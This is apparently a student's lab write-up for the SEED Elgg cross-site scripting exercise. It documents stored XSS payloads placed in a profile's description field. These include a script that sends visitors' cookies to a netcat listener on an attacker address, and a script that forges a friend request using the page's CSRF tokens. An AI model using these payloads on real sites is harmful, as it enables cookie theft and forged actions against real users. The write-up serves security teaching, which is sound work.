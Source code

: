 # Question 1
## Task 1

First we logged in ```http://www.seed-server.com/```with the user ```alice``` and the corresponding password - ```seedalice```.
Then, in the profile page, we edit the ```Brief description``` to ```<script>alert(’XSS’);</script>```.

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7.png)

After making that change, when any user visits that profile, that code will be executed and an alert window will be displayed.

![Image 2.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7_2.png)

## Task 2

 We changed the  ```Brief description``` to ```<script>alert(document.cookie);</script>```.

 ![Image 3.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7.png)

 After making the change, when viewing the profile, an alert window was displayed showing the cookies of the user who viewed the profile.

 - Login as ```alice```:
  ![Image 4.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_2.png)
 - Login as ```boby```:
   ![Image 5.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_3.png)

## Task 3
 We changed the  ```Brief description``` to ```<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>```.
![Image 6.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7.png)
   Then we used the command ```nc -lknv 5555```to start a server that listens on port 5555, then we visited ```alice```'s profile logged as ```alice``` and then logged as ```boby```:
![Image 7.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7_1.png)
    That way, as the attacker, we were able to see the users' cockies.

## Task 4
We started by going to the ```samy```profile logged as ```alice```. We inspected it to find out what is sent to the server when a user adds a friend:
![Image 8.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7.png)
Then we completed the following code with the request to add ```samy```as friend, that we had discovered:
```<script type="text/javascript">
window.onload = function () {
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
We changed the ```Brief description```to that code:

![Image 9.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_1.png)

After that we logged as ```alice``` and checked her friends:

![Image 10.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_2.png)

We visited the ```samy```profile:
![Image 11.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_3.png)
Then reloaded the page, and suddently ```alice```become friends with ```samy```:
![Image 12.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_4.png)
![Image 13.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_5.png)

### Question 1

Lines ➀ and ➁ are used to dynamically extract CSRF tokens that ensure requests to the server are legitimate and originate from an authenticated session. The ```__elgg_ts``` and ```__elgg_token``` are security tokens that prevent malicious users from forging requests on behalf of a victim. These tokens are typically unique per session, and by including them in the request, the server can verify that the request comes from an authorized user and not from a malicious script.

- Line ➀: This fetches the ```__elgg_ts``` token from the Elgg framework’s security object ```elgg.security.token.__elgg_ts```. It represents a timestamp value to prevent replay attacks.
- Line ➁: This fetches the ```__elgg_token``` token from the same security object ```elgg.security.token.__elgg_token```. It acts as a unique session identifier for preventing CSRF attacks.

Both of these tokens are crucial for the integrity of the request and ensure that the action being taken (such as adding a friend) is authorized.

### Question 2

If the Elgg application only provides the Editor mode and does not allow switching to the Text mode, it can make it more challenging to launch an XSS attack. The Editor mode typically uses a rich-text editor that sanitizes user input to prevent the inclusion of dangerous HTML tags or JavaScript, which is often a barrier to XSS attacks.

However, it may still be possible to launch an attack under certain conditions:

- If the editor doesn't properly sanitize all input or allows certain HTML tags, a malicious script might still be injected through certain mechanisms (like embedding an image or a link that contains a payload).

- If there are flaws in how the application handles the input from the editor (such as improper encoding or filtering), a malicious actor might be able to inject malicious code without requiring access to the Text mode.

In summary, while the restriction to Editor mode makes it harder for attackers to directly insert JavaScript code, it does not completely eliminate the possibility of an XSS attack if the application doesn't implement strong input sanitization and output encoding.

# Question 2
The described attack can be classified as a Stored XSS attack because the malicious code is inserted into the ```Brief description``` of the user's profile. Once stored on the server, it will be executed every time someone else accesses that user's profile, without requiring direct interaction from the victim - the malicious script persists on the site and is executed each time that user's profile is accessed.

# Conclusion
This series of tasks highlights the risks of XSS and CSRF vulnerabilities. By injecting malicious scripts into user profiles, we demonstrated how attackers can steal sensitive data and manipulate user actions without direct interaction. It emphasizes the need for strong input sanitization, output encoding, and CSRF protection to prevent such attacks and secure web applications effectively.
